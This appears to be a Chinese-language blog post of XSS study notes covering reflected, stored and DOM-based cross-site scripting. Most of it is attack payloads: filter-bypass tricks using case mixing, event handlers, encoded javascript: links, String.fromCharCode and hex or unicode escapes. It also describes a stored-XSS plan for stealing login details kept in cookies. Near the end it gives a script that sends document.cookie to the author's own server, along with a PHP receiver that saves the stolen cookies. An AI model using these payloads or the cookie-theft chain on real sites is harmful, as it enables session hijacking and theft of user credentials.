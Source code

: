 ```yaml
---
published: true
---
```

## XSS
指是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入Web里面的html代码会被执行，从而达到恶意用户的特殊目的。  
Reflect xss：  
    它通过给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须用户点击带有特定参数的链接才能引起。下面博客很好的讲述了反射型XSS的利用:  
http://netsecurity.51cto.com/art/201311/417201.htm  

![](https://ljjbloghub.github.io/img/xss.jpg )
对于xss防御的绕过方式：   
1.双写绕过  
输入<sc< script>ript>alert(/xss/)< /script> 
2.大小写混淆绕过  
< ScRipt>alert(/xss/)< /script>   
3.< img src=1 onerror=alert(/xss/)>  
4.当<>被转译为&lt时  
 " onmouseover=alert(document.domain) x=“  （x=" 用于闭合  “>）  
 或者 " onmouseover=alert(document.domain)>  
5. javascript :alert();#js伪协议在a标签的使用,可以在输入时构造a标签  
   < a  href=javascript :alert(1)>test< /a>  
6.当script被替换xscript时，尝试用tab制表(%09)绕过  
 < a href=javas%09cript:alert(1)>test< /a>  
但是制表符使用在单个标签之内，会被浏览器`正确`去除，然而在跨标签的时候（即闭合前面原有标签，使用在构造者构造的新标签的时候)不会被消除，使用&#09 tab制表符html十进制编码：javascri&#09pt:alert()   

7.特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\。   
javascript中的String.fromCharCode方法来绕过，我们可以把alert("XSS");转换为   
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41)那么我们的XSS语句就变成了 
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)</script> 
String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串。   
8.进行hex编码来绕过XSS。  
<script>alert("xss");</script> 可以转换为：   
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e

### Stored  xss  
把恶意脚本存储到被攻击者的网站的数据库。其他人访问数据库中的恶意脚本代码后，浏览器执行恶意脚本。 
思路  
1.通过nodeJS在后端开启两个不同端口的服务，即两个不同域的站点。  
2.被攻击者网站  
 a:在登录时，把用户的用户名、密码信息存入cookie中  
 b.有一个评论功能，用户在文本框内输入评论信息，然后提交到服务器。  
3.攻击者在评论处输入< script src='hack.js'>< /script>,点击提交后这段脚本存入到数据库  
 hack.js文件是攻击者网站的js脚本文件，用来获取用户的cookie中的用户名、密码信息，并且把用户名、密码发送到攻击者指定的网站。  
4.当网站的用户访问带有评论< script src='hack.js'>< /script>信息时，会下载hack.js文件，并且执行，网站被攻击。  

### DOM XSS 
由于文档的某些输入输出没有过滤，攻击者可以插入js代码，在客户端进行攻击造成xss攻击。 常见于：document.location,document.URL,document.URLUnencoded,document.referrer,windows.location等 
若插入的js被另一个文档对象所操作那么可以叫它为dom xss。   

1、构造document.write()的playload，如果<>被过滤时，可以使用16进制编码<变为\x3c，>为\x3e    
		\x3cscript\x3ealert(document.domain);\x3c/script\x3e 
  但是document.write在输出的时候会JavascriptDecode一下数据，会把数据原有\去除，所以要变为  
  \\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e   
2、\x不起作用可以考虑unicode编码   
     \\u003cimg src=x onerror=alert(document.domain)\\u003e   

### 当你注入了js，如何取得cookie呢？
1.编写js脚本利用存储型xss漏洞（留言板）来传输cookie到自己的服务器端 
      < script> 
      Var cook =document.cookie; 
      Var  img =‘< img src=“自己的服务器ip/get.php？cookie=‘+encodeURL(cook)+’ “ />’; 
      Document.write(img) 
      < /script> 
2.本地编写get.php 获取传输的COOKEIE存入xss.txt.   
<?php   
 $cook=isset($_GET(‘cookie’))?$_GET(‘cookie’):NULL;   
file_put_contents(“xss.txt”,$cook);   
?>    
得到cookie后就能进行欺骗，想获得更多信息 查看js的document对象和windows对象，ajax请求。   


XSS小技巧   
1、eval(“alert(1)”);会当作js运行   
2、若是页面没有申明charset=UTF-8，那么可以使用UTF-7构造playload http://toolswebtop.com/text/process/decode/utf-7   
3、使用 ‘ //进行闭合,    ”>来闭合value值   
4、有下拉选择框时，可能注入点不止一个，burp查看修改。可能也需要闭合
